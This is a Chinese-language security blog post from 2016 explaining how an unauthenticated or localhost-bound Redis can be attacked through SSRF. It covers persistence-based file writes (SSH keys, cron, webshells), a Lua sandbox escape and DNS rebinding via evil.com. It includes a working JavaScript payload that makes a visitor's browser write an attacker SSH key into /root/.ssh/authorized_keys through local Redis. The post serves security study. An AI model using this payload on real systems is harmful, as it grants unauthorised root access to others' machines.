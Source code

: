 ```yaml
---
id: 751
layout: post
title: 'Redis和SSRF'
date: 2016-07-20 17:57:00
author: virusdefender
tags: 安全
---
```


> 你以为bind了127.0.0.1就安全了么？

## 本地写文件

这个爆出来很久了。原理就是利用Redis的数据持久化。设置持久化文件的名称和路径，然后在Redis中写入文件内容，给Redis发送持久化的命令，这样Redis就会将数据库的内容写入执行的文件了。详细参考 http://blog.nsfocus.net/redis-unauthorized-ssh-free-password-vulnerabilities-fixes/

这个并不一定需要SSRF，如果Redis未授权访问的，那同样可以利用。

利用点

 - 写`$Home/.ssh/authorized_keys`，root用户就是`/root`，其他用户需要猜测或者遍历用户名。
 - 写`/var/spool/cron`，然后crontab定期执行，因为Redis持久化的数据可能包含其他的数据，所以写入的文件可能有一些垃圾信息，但是crontab对格式要求比较松，避免先去`flushall ` Redis。
 - 写webshell，但是得已知路径
 - slave of `$IP` 主从模式利用
 - 写`/etc/profile.d/`用户环境变量
 - AOF类型持久化，和RDB持久化类似，但是是纯文本的格式

## Redis中数据和web应用的结合

如果控制了Redis中的数据，很多时候和直接控制了数据库是一样的，可以有针对性的修改数据。参考 https://www.seebug.org/vuldb/ssvid-91879  在Redis中更改了全局变量的值，导致任意代码执行。里面有对gopher协议的利用，参考 https://blog.chaitin.com/gopher-attack-surfaces/

## Redis Lua Sandbox Escape

详情见 http://benmmurphy.github.io/blog/2015/06/04/redis-eval-lua-sandbox-escape/

利用了Redis的Lua支持，但是Redis的Lua是有sandbox的，不能执行任意的代码，怎么去尝试绕过？

https://gist.github.com/corsix/6575486 实现的了三个功能

 - 读取`TValue`结构体中的值
 - 读取任意内存地址上的8个字节，可以导致基地址泄露
 - 任意内存地址写8个字节

作者在多个系统和多个Redis上都测试通过，Redis已经修复这个问题 https://groups.google.com/forum/#!msg/redis-db/4Y6OqK8gEyk/Dg-5cejl-eUJ

## SSRF和CSRF结合体 看网页也能被拿shell

今天看到老外发了一个脑洞，https://ericrafaloff.com/client-side-redis-attack-poc/ 使用ajax直接给Redis发送请求，也利用的是Redis的Lua支持，原文中的Demo被我修改为写入ssh公钥的，当然上面提到的其他攻击方法都可以使用。

```js
var keydir = "/root/.ssh";
var cmd = new XMLHttpRequest();
cmd.open("POST", "http://127.0.0.1:6379");
cmd.send('eval \'' + 'redis.call(\"set\", \"hacked\", "\\r\\n\\nssh-rsa AAAAB... virusdefender@LiYangs-MacBook-Pro.local\\n\\n\\n\\n\"); redis.call(\"config\", \"set\", \"dir\", \"' + keydir + '/\"); redis.call(\"config\", \"set\", \"dbfilename\", \"authorized_keys\"); ' + '\' 0' + "\r\n");

var cmd = new XMLHttpRequest();
cmd.open("POST", "http://127.0.0.1:6379");
cmd.send('save\r\n');
```

在这里有一个最大的限制就是浏览器跨域请求的问题，根据 https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Access_control_CORS 
 简单请求是可以直接跨域发送的，但是无法收到响应，简单请求的定义如下
 
>  只使用 GET, HEAD 或者 POST 请求方法。如果使用 POST 向服务器端传送数据，则数据类型(Content-Type)只能是 application/x-www-form-urlencoded, multipart/form-data 或 text/plain中的一种。

这里符合条件，所以可以直接发送请求到Redis端口。当然，还可以利用DNS Rebinding来绕过同源策略。步骤如下

 - 解析`evil.com`到正常ip，使用比较小的TTL
 - 用户浏览页面，页面中setTimeout到100秒后发送一个ajax请求到`evil.com`
 - 解析`evil.com`到`127.0.0.1`，因为TTL很小，所以生效很快，而且浏览器也会重新发送DNS查询
 - 100秒后，请求实际被发送到了`127.0.0.1`

## 思考
 - 还有那些服务像Redis一样是很好利用？
 - http://www.freebuf.com/articles/web/19622.html 还有哪些跨协议攻击？

## Update

后续 redis 3.2.6 版本加强了判断，将 Host 和 Post 两个单词当做了结束指令。



